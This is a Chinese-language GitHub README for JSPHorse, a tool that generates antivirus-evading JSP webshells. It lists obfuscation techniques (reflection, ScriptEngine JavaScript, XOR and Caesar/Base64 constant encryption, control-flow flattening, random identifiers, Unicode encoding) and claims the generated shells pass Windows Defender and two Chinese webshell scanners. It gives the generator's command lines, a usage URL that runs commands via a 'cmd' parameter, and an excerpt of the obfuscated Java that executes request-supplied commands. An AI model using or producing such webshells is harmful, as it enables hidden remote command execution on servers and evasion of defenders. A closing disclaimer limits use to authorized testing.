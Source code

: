 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

## 简介

一个JSP免杀Webshell生成器，目前仅支持普通回显Webshell，后续可能支持冰蝎等，核心技术为Java的AST库JavaParser

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

特点：

- Java反射调用
- ScriptEngine调用JS免杀
- 使用分割和注释绕过可能的JS黑名单
- Javac动态编译class免杀（参考三梦师傅代码）
- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

在Github右侧Release页面下载

生成标准形式Webshell

`java -jar JSPHorse.jar -p your_password`

全局Unicode编码（JSP支持全局Unicode编码）

`java -jar JSPHorse.jar -p your_password -u`

生成进阶版Webshell（Javac动态编译class）

`java -jar JSPHorse.jar -p your_password --super`

进阶版Webshell基础上全局Unicode编码

`java -jar JSPHorse.jar -p your_password --super -u`

使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

使用ScriptEngine调用JS免杀基础上全局Unicode编码

`java -jar JSPHorse.jar -p your_password --js -u`

如何使用？

http://xxx/1.jsp?pwd=your_password&cmd=calc.exe

生成JSP大致代码如下：

```java
 try {
        String[] bUKHeZoxwrAKYLkjvcMP = new String[] { "NXwwfDJ8M3w3fDl8MTB8MTF8Nnw4fDF8NA==", "eGVs", "a3Vs", "amF2YS5sYW5nLlJ1bnRpbWU=", "b21iWmN2YnF1bQ==", "bWZtaw==", "PHByZT4=", "PC9wcmU+" };
        String CSLEQilaJEXYTqhIDubS = dec(bUKHeZoxwrAKYLkjvcMP[((627747 ^ 1285107) ^ (217916 ^ 1662188))], ((362867 ^ 1112231) ^ (464295 ^ 1205371)));
        String[] jhetxjKiUeIqIeKBycOb = CSLEQilaJEXYTqhIDubS.split("\\|");
        int jEpUBflQcOJKNizndvCp = ((525415 ^ 1384817) ^ (317417 ^ 1700607));
        String UQIOIelnYKguiPiMnaQT = null;
        String nawTPQyIRdcwDULZVBSF = null;
        Class PGyKjvgngwNbFYoJPbaj = null;
        java.lang.reflect.Method EbTdlrXQiEuMcgyFuGyY = null;
        java.lang.reflect.Method HGjRkjZSeXejrnHgtgIq = null;
        Process gVCGkwmXVnpDbwgkpiyP = null;
        java.io.InputStream DIFNoxuAzWMRCwXZtJWB = null;
        byte[] RDwBQBJtrIRqaxomirvG = null;
        while (true) {
            int OKovVnfpZyAFhVlmyglP = Integer.parseInt(jhetxjKiUeIqIeKBycOb[jEpUBflQcOJKNizndvCp++]);
            switch(OKovVnfpZyAFhVlmyglP) {
                case ((303670 ^ 1554191) ^ (15449 ^ 1255776)):
                    nawTPQyIRdcwDULZVBSF = request.getParameter(dec(bUKHeZoxwrAKYLkjvcMP[((2039625 ^ 1074544) ^ (1424304 ^ 1753483))], ((841358 ^ 1837015) ^ (835561 ^ 1863352))));
                    break;
                case ((849435 ^ 1174311) ^ (325714 ^ 1697127)):
                    HGjRkjZSeXejrnHgtgIq = PGyKjvgngwNbFYoJPbaj.getMethod(dec(bUKHeZoxwrAKYLkjvcMP[((673702 ^ 1287280) ^ (321257 ^ 1901882))], ((534640 ^ 1947587) ^ (300141 ^ 1117142))), String.class);
                    break;
                case ((346862 ^ 1984726) ^ (144870 ^ 1652694)):
                    out.print(dec(bUKHeZoxwrAKYLkjvcMP[((591409 ^ 1247053) ^ (1047216 ^ 1440714))], ((1916117 ^ 1041302) ^ (390214 ^ 1518349))));
                    break;
......................................................
```

## 免责申明

未经授权许可使用`JSPHorse`攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的


